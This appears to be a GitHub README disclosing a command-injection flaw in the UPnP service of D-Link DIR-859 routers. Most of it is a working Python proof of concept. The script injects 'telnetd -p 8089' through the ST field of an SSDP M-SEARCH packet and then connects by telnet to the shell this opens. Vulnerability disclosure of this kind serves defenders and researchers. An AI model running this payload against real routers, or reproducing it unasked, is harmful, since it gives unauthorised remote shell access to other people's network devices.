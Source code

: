 # dir-859
Exploit Author: yangchunyuwhu@aliyun.com

Vendor: D-Link

Firmware: DIR-859_REVA_FIRMWARE_PATCH_1.06B01.zip

An issue was discovered on D-Link DIR-859 devices. Universal Plug and Play (UPnP) is enabled by default on port 1900. allowing an attacker to inject arbitrary command to the UPnP via a crafted M-SEARCH packet.An attacker can perform command injection by injecting a payload into the "Search Target" (ST) field of an SSDP M-SEARCH discovery packet.

# poc
from socket import *

from os import *

from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'

payload += b'HOST:localhost:1900\r\n'

payload += b'ST:urn:device:;telnetd -p 8089\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)

s.sendto(payload, ("192.168.0.1", 1900))

s.close()
 
sleep(1)

system("telnet 192.168.0.1 8089")
